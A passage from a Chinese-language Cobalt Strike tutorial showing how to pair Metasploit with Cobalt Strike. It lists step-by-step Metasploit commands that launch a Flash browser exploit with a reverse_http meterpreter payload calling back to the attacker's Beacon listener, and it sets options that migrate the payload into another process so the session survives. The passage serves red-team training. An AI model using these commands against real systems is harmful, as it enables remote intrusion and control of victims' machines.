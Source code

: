 当在目标主机上提示是否运行时，点击运行。
当该文件在目标上运行后，CS客户端上就可以看到回连的会话了。

### MSF 与 CS 的结合利用

如果想使用MSF对目标进行漏洞利用，再通过这个漏洞来传输Beacon的话，也是可以的。
1、首先在MSF上选择攻击模块
2、接着在MSF上设置Payload为windows/meterpreter/reverse_http或者windows/meterpreter/reverse_https，这么做是因为CS的Beacon与MSF的分阶段协议是相兼容的。
3、之后在MSF中设置Payload的LHOST、LPORT为CS中Beacon的监听器IP及端口。
4、然后设置 DisablePayloadHandler 为 True，此选项会让 MSF 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉MSF说我们已经建立了监听器，不必再新建监听器了。
5、再设置 PrependMigrate 为 True，此选项让 MSF 前置 shellcode 在另一个进程中运行 payload stager。如果被利用的应用程序崩溃或被用户关闭，这会帮助 Beacon 会话存活。
6、最后运行exploit -j，-j 是指作为job开始运行，即在后台运行。
**操作**
在CS中新建一个HTTP Beacon，创建过程不再赘述。
1、在MSF中选择攻击模块，根据教程这里选择的adobe_flash_hacking_team_uaf模块，不过个人感觉现在这个模块已经不太能被利用成功了。

```
use exploit/multi/browser/adobe_flash_hacking_team_uaf
```

2、接着配置payload，这里选择revese_http payload

```
set payload windows/meterpreter/reverse_http
set LHOST cs_server_ip
set LPORT 80
```

3、之后，配置DisablePayloadHandler、PrependMigrate为 True

```
set DisablePayloadHandler True
set PrependMigrate True
```

4、最后，开始攻击。

```
exploit -j
```
![image-20240628162417510](26.Cobalt%20Strike%20%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B/image-20240628162417510.png)
